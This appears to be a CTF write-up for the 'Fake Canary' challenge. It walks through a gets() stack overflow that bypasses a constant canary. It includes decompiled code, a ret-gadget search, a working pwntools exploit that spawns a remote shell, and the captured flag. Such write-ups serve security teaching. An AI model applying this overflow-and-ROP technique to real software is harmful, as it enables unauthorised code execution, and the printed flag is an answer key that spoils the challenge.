 # Fake Canary

## Challenge Description
`Description: Here at Stack Smasher Inc, we protect all our stacks with industry grade canaries!`

## Solution
> TLDR: Spray 40 random characters to fill up the array, then provide 0xdeadbeef value (so that the value of the fake canary is not modified), spray 8 random characters to overwrite the stored rbp, provide the address of `ret` gadget (to fix misalignment issue) and lastly, provide the address of win() function (to spawn a shell).

Ghidra's decompiled main() function
``` c
undefined8 main(void)
{
  char local_38 [40];
  long local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  local_10 = 0xdeadbeef;
  puts("Welcome to Stack Smasher!");
  puts("What\'s your name?");
  gets(local_38);
  if (local_10 != 0xdeadbeef) {
    puts("**HACKER DETECTED! Program aborted**");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  return 0;
}
```

The vulnerability lies on `gets(local_38)`. This line of code is vulnerable to buffer overflow.

Ghidra's decompiled win() function
``` c
void win(void)
{
  system("/bin/sh");
  return;
}
```

To spawn a shell, I need to call this function.

Before I craft my exploit, I need to find a `ret` gadget to fix the misalignment issue:
``` python
$ python3 Ropper.py -f ../fake_canary --search "ret"                   
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: ../fake_canary
0x0000000000400542: ret 0x200a; 
0x0000000000400536: ret;
```

Idea: Spray 40 random characters to fill up the array, then provide 0xdeadbeef value (so that the value of the fake canary is not modified), spray 8 random characters to overwrite the stored rbp, provide the address of `ret` gadget (to fix misalignment issue) and lastly, provide the address of win() function (to spawn a shell).

Working POC:
```python
from pwn import *

canary = p64(0xdeadbeef)
winAddr = p64(0x400725)
ret = p64(0x0000000000400536)
payload = ("A"*40).encode() + canary + ("A"*8).encode() + ret + winAddr

r = remote('chal.imaginaryctf.org', 42002)
#r = process('./fake_canary')
#pause()
r.recvuntil(b'your name?\n')
r.sendline(payload)
r.interactive()
```

Output of the POC:
``` bash
$ python3 fakecanary.py
[+] Opening connection to chal.imaginaryctf.org on port 42002: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
ictf{m4ke_y0ur_canaries_r4ndom_f492b211}
```

Flag: `ictf{m4ke_y0ur_canaries_r4ndom_f492b211}`
